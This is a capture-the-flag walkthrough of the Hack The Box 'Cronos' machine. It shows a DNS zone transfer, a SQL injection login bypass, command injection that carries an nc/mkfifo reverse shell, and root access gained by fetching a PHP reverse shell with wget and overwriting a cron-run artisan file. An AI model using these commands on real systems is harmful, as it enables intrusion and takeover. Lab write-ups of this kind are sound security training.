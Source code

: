 # Cronos

## Cronos

Cronos was a medium linux box that required gaining access to a code execution site through dns searching and sql injection. This was then used to gain a shell on the system and read the user flag. Root required some enumeration to find the `/etc/crontab` file which we can abuse to gain a root shell with php.

> Skills involved in this box:

* enumeration
* privelage escalation
* dns searching using dig
* SQL 

## USER

As always we start off with an nmap scan:

```bash
kali@kali:~/boxes/cronos$ nmap -sC -sV -o nmap 10.10.10.13
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-27 04:51 EDT
Nmap scan report for 10.10.10.13
Host is up (0.036s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.08 seconds
```

The scan shows port 22 open on ssh even though it is not needed for this box. Port 80 fo http and port 53 open on tcp which we can use to try ad find subdomains for the host later.

We visit the page at http and find a default apache page. We quickly add `cronos.htb` to our hosts and refresh the page. We now get a normal website which doesnt seem too interesting.

We run directory brute-force tools such as gobuster but we dont find anything.

Instead we use `dig` to try and find any subdomains on `cronos.htb`:

```bash
kali@kali:~/boxes/cronos$ dig axfr @10.10.10.13 cronos.htb

; <<>> DiG 9.16.3-Debian <<>> axfr @10.10.10.13 cronos.htb
; (1 server found)
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 20 msec
;; SERVER: 10.10.10.13#53(10.10.10.13)
;; WHEN: Sat Jun 27 04:55:32 EDT 2020
;; XFR size: 7 records (messages 1, bytes 203)
```

We Add all of theese to our hosts file which now looks like this: `10.10.10.13 cronos.htb www.cronos.htb ns1.cronos.htb admin.cronos.htb`

Navigating to `admin.cronos.htb` we find a login page, We try and guess common passwords but none of which work.

We then try to use SQL Injection to try and bypass the login page and it worked.

We used the username: `admin' OR 1=1 -- -` and we left the password field blank and we manage to login succesfully.

Now it shows us the title `Net Tool v0.1` and we can execute commands via the execute section where it allows us to ping an ip address.

It lets us ping an ip so we try to ping our own to see if we get a connection and it works.

we intercept the request with burpe to see whats going on.

`command=ping+-c+1&host=10.10.xx.xx` - this is basically what it shows when executing the command, we can try edit this command to get code execution with anything such as `whoami` or `id`.

We then drop the request and go back to the page and see if we can get a reverse shell.

`10.10.xx.xx; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.xx.xx 1234 >/tmp/f`

We enter this into the command bar and setup a listener and we get a shell.

From here we can then go on to read the user flag.

```bash
kali@kali:~/boxes/cronos$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.13] 51974
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ which python
/usr/bin/python
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@cronos:/var/www/admin$ cd /home
cd /home
www-data@cronos:/home$ ls
ls
noulis
www-data@cronos:/home$ cd noulis
cd noulis
www-data@cronos:/home/noulis$ ls
ls
user.txt
www-data@cronos:/home/noulis$ cat user.txt
cat user.txt
51d236438b333970dbba7dc3089be33b
```

## ROOT

By running linenum.sh on the system we find an interesting file on it called `/etc/crontab`.

```bash
ww-data@cronos:/home/noulis$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

We can see that this file is being ran as root, lets see if we can exploit it.

We see that it is running `/var/www/laravel/artisan` as root with php meaning its a php file. Lets try and add a reverse shell to the file and see if it executes it.

```bash
kali@kali:~$ python -m SimpleHTTPServer 8081
Serving HTTP on 0.0.0.0 port 8081 ...
10.10.10.13 - - [27/Jun/2020 05:12:20] "GET /php-reverse-shell.php HTTP/1.1" 200 -
```

We setup a python server to host our rev-shell file\(which is edited to include our ip and port\)

```bash
www-data@cronos:/tmp$ wget 10.10.14.7:8081/php-reverse-shell.php
wget 10.10.14.7:8081/php-reverse-shell.php
--2020-06-27 12:15:48--  http://10.10.14.7:8081/php-reverse-shell.php
Connecting to 10.10.14.7:8081... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5492 (5.4K) [application/octet-stream]
Saving to: 'php-reverse-shell.php'

php-reverse-shell.p 100%[===================>]   5.36K  --.-KB/s    in 0.003s  

2020-06-27 12:15:48 (1.63 MB/s) - 'php-reverse-shell.php' saved [5492/5492]

www-data@cronos:/tmp$

www-data@cronos:/var/www/laravel$ cp /tmp/php-reverse-shell.php artisan
cp /tmp/php-reverse-shell.php artisan
```

Now we just set up a listener on the specified port that we added in our shell file and wait for a connection.

```bash
kali@kali:~$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.13] 46434
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 12:18:01 up 24 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
# cat /root/root.txt
1703b8a3c9a8dde879942c79d02fd3a0
```

Thanks for reading hope you enjoyed.

